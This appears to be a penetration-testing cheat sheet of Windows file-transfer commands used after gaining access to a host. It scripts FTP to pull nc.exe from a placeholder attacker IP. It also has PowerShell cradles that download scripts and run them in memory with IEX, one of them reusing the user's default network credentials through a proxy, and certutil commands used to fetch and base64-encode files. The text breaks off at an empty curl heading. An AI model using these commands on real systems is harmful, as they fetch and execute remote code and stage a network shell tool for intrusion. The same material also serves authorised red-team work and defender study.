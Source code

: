 

FTP

```
echo open <[IP]> 21 > ftp.txt

echo USER demo >> ftp.txt

echo ftp >> ftp.txt

echo bin >> ftp.txt

echo GET nc.exe >> ftp.txt

echo bye >> ftp.txt

ftp -v -n -s:ftp.txt
```



Powershell

```
Invoke-WebRequest "https://server/filename" -OutFile "C:\Windows\Temp\filename"

(New-Object System.Net.WebClient).DownloadFile("https://server/filename", "C:\Windows\Temp\filename") 

#Powershell Download to Memory

IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')

#Powershell with Proxy

$browser = New-Object System.Net.WebClient;
$browser.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
IEX($browser.DownloadString('https://server/script.ps1'));
```



CertUtil

```
#File Transfer

certutil.exe -urlcache -split -f https://m0chan:8888/filename outputfilename

#CertUtil Base64 Transfers

certutil.exe -encode inputFileName encodedOutputFileName
certutil.exe -decode encodedInputFileName decodedOutputFileName
```



Curl (Windows 1803+)
